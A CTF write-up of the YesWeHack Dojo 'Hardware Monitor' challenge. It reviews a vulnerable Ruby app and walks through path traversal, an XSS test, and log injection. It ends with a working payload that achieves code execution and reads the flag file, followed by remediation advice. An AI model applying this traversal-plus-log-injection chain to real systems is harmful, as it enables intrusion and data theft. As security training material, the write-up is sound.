




# 08-25: Hardware Monitor

## Description

> We were recently hired to perform an authorized pentest and we were given access to their custom application that monitors the hardware usage for their server. It seems we can run custom backup scripts with our current authorization role. That seems interesting... right?

## Solution

In this writeup, we'll review the latest [YesWeHack](https://twitter.com/yeswehack) Dojo [challenge](https://dojo-yeswehack.com/challenge-of-the-month/dojo-44), created by [Brumens](https://twitter.com/Brumens2) 💜

Follow me on [Twitter](https://twitter.com/_CryptoCat) and [LinkedIn](https://www.linkedin.com/in/cryptocat) (and everywhere else 🔪) for more hacking content! 🥰

### Source code review

Starting with the setup code, we see the flag is stored in `/tmp` with a randomised filename. I snipped the `index.html` as it's purely frontend UI related, which doesn't look useful for this challenge.

#### setup.rb

```ruby
require 'fileutils'
require 'securerandom'

# Write flag script file with execute only
filenameflag = "flag_#{SecureRandom.hex(10)}.txt"
File.write("/tmp/#{filenameflag}", flag)

# Make web app folder structure and add files
FileUtils.mkdir_p '/tmp/app/views'
FileUtils.mkdir_p '/tmp/app/logs'
FileUtils.mkdir_p '/tmp/app/scripts'
Dir.chdir('/tmp/app')

File.write('scripts/bakup.rb', 'puts "PANIC PANIC PANIC AAAAH!!!"')

# Write the login page
File.write('views/index.html', '
<SNIP>
')
```

Next, we review the `bakup.rb` file. A script file path is created from `OUR_INPUT`, then later loaded from the `scripts/` directory (after calling `cleanpath`). Finally, the error logs are returned to the UI.

#### server.rb

```ruby
require 'erb'
require 'cgi'
require 'logger'
require 'pathname'

Dir.chdir('/tmp/app')

logger = Logger.new('logs/error.log')
logger.datetime_format = "%-m/%-d/%Y"

scriptFile = CGI.unescape("OUR_INPUT")
scriptFile = Pathname.new(scriptFile)

# Load given backup script
if scriptFile != '' then
    logger.info("Running bakup script #{scriptFile}")
    begin
        load "scripts/#{scriptFile.cleanpath}"
    rescue Exception => e
        logger.warn("The bakup script failed to run, error : #{e.message}")
    end
end

# Render the given page for our web application
puts ERB.new(IO.read("views/index.html")).result_with_hash({logs: File.read("logs/error.log")})
```

### Directory Traversal

Since the vulnerable file is called `bakup.rb`, let's try to request this first.



It runs successfully! Let's try a directory traversal for `../../../../etc/passwd`




It did actually leak some values, interesting! I thought `scriptFile.cleanpath` would remove the `../` but apparently it just removes "consecutive slashes and useless dots", e.g. `..//..//..//..//etc/passwd` is converted to `../../../../etc/passwd` The problem is we don't know the name of the randomised flag.

I also noticed we can trigger an error trace by trying to re-run `logger.rb`.



I tried to fuzz some other files, e.g. `/proc/fd/0` (through 10), `/proc/self/cmdline`, `.env` files etc, but didn't find anything useful.

I noticed we can achieve XSS, e.g. input of `<b>meow</b>` will print bold and if we set an XSS to steal the cookie, we get the callback.

```html
</pre><pre>
```

We don't get a cookie though, and that's not where the flag is 😅

I look online for `logger.rb v1.6.4` vulnerabilities, but don't see much. Another thought; log injection + path traversal -> RCE?

### Log Injection

We know the path of the error log is `../logs/error.log` so if the log contained valid ruby code, would it run when passed to the `load` function?

Before entering testing with any ruby code, let's just try to run the file.



I don't know much about Ruby - initially I thought it was trying to execute each line. Unfortunately, from what I can gather, the syntax error on line 2 (`I,`) will prevent any further execution. In other words, the remaining errors are just related to failed parsing.

Since I'm out of ideas, I continue down this rabbit hole. Examining the functionality of `cleanPath`, I realise if we send the input `../logs/error.log/../PAYLOAD`, we get the following output.

```bash
# Logfile created on 2025-09-08 16:52:37 +0000 by logger.rb/v1.6.4
I, [9/8/2025 #7501]  INFO -- : Running bakup script ../logs/error.log/../PAYLOAD
W, [9/8/2025 #7501]  WARN -- : The bakup script failed to run, error : cannot load such file -- scripts/../logs/PAYLOAD
```

Notice that the INFO line shows `../logs/error.log/../PAYLOAD` whereas the WARN line shows `../logs/PAYLOAD`

However, we would want this the other way round. Send `../logs/PAYLOAD/../error.log` and we will see that it _does_ try to execute `../logs/error.log` _and_ our `PAYLOAD` is injected into that log first.

```bash
I, [9/8/2025 #7596]  INFO -- : Running bakup script ../logs/PAYLOAD/../error.log
W, [9/8/2025 #7596]  WARN -- : The bakup script failed to run, error : scripts/../logs/error.log:3: syntax errors found
  1 | # Logfile created on 2025-09-08 16:55:54 +0000 by logger.rb/v1.6.4
> 2 | I, [9/8/2025 #7596]  INFO -- : Running bakup script ../logs/PAYLOAD/../error.log
    | ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ unexpected write target
    |    ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ unexpected write target
    |                                                                                 ^ unexpected end-of-input; expected a `]` to close the array
```

We can verify this by sending `../logs/PAYLOAD/../error.logz` and seeing it no longer runs.

```bash
# Logfile created on 2025-09-08 17:08:35 +0000 by logger.rb/v1.6.4
I, [9/8/2025 #7995]  INFO -- : Running bakup script ../logs/PAYLOAD/../error.logz
W, [9/8/2025 #7995]  WARN -- : The bakup script failed to run, error : cannot load such file -- scripts/../logs/error.logz
```

We still can't just swap the `PAYLOAD` with a real one 😞 As discovered earlier, ruby is hitting an error at the beginning of the line (`I,`) and will not proceed.

I check the [recent releases](https://github.com/ruby/logger/releases) of the logger library and see that the most recent version (1.7.0) added a new feature; `Add skip_header option`. If this was enabled (or we could switch it on), maybe our attack plan would work? Unfortunately, we're using a version that's nearly a year old (1.6.4) so this feature did not exist.

I also tried with newlines, confirming that we _can_ still `load` the `error.log` as a file using this payload.

```bash
../logs/
PAYLOAD
/../error.log
```

I'm out of ideas - I've already looked at all [common file paths](https://www.yeswehack.com/learn-bug-bounty/practical-guide-path-traversal-attacks), to the extent that YWH blocked my IP for a little while 👀 I'd be extremely surprised if this was the correct approach because challenges always state "no automated tools", "no brute force" etc. Furthermore, what would be the point of including the `logger.rb` at all if we just had to read a local file?

### RCE

Unfortunately, I ran out of time and didn't solve the challenge. Now that the [writeups](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-44) are released, I can see how close I got 😫

The path was correct; `log injection -> path traversal -> RCE`

The problem was me not fixing the ruby syntax! I had noticed that inserting a closing `]` would fix the first error, but I didn't break it down sufficiently to see what else was required. In fact, we needed to make quite a few changes (check [YWH blog](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-44) for full explanation).

```ruby

][0]=1;f=Dir['/tmp/flag*.txt'][0];c=File.read(f);puts c#://../../../../logs/error.log
```

## Remediation

-   Don't trust user input. Replace `load` with a fixed dispatch or whitelist (map input to allowed actions).
-   Canonicalise paths to prevent directory traversal.
-   Don't leak detailed errors to users.

## Summary (TLDR)

The challenge featured an obvious path traversal vulnerability, but that alone is not enough to get the flag. Since the filename is randomised, we need RCE or some way to list/leak directory listings. In this case, the path traversal could be combined with log injection to execute some ruby code. Achieving RCE was complicated by the prepended lines in the log (dirty file write) and some understanding of ruby syntax and parsing was essential (hence I did not solve it 😸).
